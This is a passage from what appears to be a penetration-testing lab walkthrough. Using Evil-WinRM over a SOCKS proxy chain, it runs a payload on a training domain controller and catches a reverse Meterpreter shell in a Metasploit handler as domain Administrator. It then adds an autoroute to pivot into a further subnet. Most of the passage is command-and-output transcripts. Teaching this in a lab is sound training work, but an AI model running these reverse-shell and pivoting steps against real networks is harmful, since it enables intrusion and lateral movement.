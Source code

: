Execute the payload on the DC and, if all goes to plan, we'll catch it in our handler.

Post-Exploitation

```shell-session
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\dc_shell.exe
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
```

Checking on our handler and we see the incoming connection. It appears to come from 0.0.0.0 because our port forwarding rule set earlier has specified that all traffic destined for our host on port 1234 should be directed to (our listener) on port 8443.

Post-Exploitation

```shell-session
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 0.0.0.0:8443 
[*] Sending stage (200262 bytes) to 10.10.14.15
[*] Meterpreter session 2 opened (10.10.14.15:8443 -> 10.10.14.15:46313 ) at 2022-06-22 21:36:20 -0400

(Meterpreter 2)(C:\) > getuid
Server username: INLANEFREIGHT\Administrator
(Meterpreter 2)(C:\) > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 3
Meterpreter     : x64/windows
```

For our next trick we'll set up a route to the `172.16.9.0/23` subnet.

Post-Exploitation

```shell-session
(Meterpreter 2)(C:\) > run autoroute -s 172.16.9.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.9.0/255.255.254.0...
[+] Added route to 172.16.9.0/255.255.254.0 via 10.10.14.15
[*] Use the -p option to list all active routes
```

We can confirm this by checking the MSF routing table.

Post-Exploitation

```shell-session
(Meterpreter 2)(C:\) > background
[*] Backgrounding session 2...
[msf](Jobs:0 Agents:2) exploit(multi/handler) >> route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.9.0         255.255.254.0      Session 2
```
